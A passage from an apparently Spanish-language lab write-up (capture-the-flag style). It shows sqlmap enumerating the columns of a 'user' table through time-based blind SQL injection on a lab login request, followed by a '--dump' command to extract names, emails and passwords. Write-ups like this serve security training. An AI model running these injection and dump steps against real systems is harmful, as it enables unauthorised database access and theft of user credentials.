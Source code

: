 ```bash
4
[19:18:09] [INFO] retrieved: 
[19:18:19] [INFO] adjusting time delay to 1 second due to good response times
email
[19:18:36] [INFO] retrieved: varc
[19:18:56] [ERROR] invalid character detected. retrying..
[19:18:56] [WARNING] increasing time delay to 2 seconds
har(255)
[19:19:55] [INFO] retrieved: i
[19:20:08] [ERROR] invalid character detected. retrying..
[19:20:08] [WARNING] increasing time delay to 3 seconds
d
[19:20:18] [INFO] retrieved: int
[19:20:55] [INFO] retrieved: name
[19:21:33] [INFO] retrieved: varchar(255)
[19:23:32] [INFO] retrieved: password
[19:25:04] [INFO] retrieved: varchar(255)
Database: main
Table: user
[4 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| name     | varchar(255) |
| email    | varchar(255) |
| id       | int          |
| password | varchar(255) |
+----------+--------------+

[19:27:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.11.130'

[*] ending @ 19:27:12 /2024-10-14/
```
Excelente, si obtuvo las columnas.

Vamos a dumpear el contenido de esas columnas, agregando el parámetro `--dump`:
```bash
sqlmap -r loginRequest.txt --batch --dbs -D main -T user --dump
        ___
       __H__                                                                                                                                                                                                     
 ___ ___[,]_____ ___ ___  {1.8.9#stable}                                                                                                                                                                         
|_ -| . ["]     | .'| . |                                                                                                                                                                                        
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                     

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:28:40 /2024-10-14/

[19:28:40] [INFO] parsing HTTP request from 'loginRequest.txt'
[19:28:40] [INFO] resuming back-end DBMS 'mysql' 
```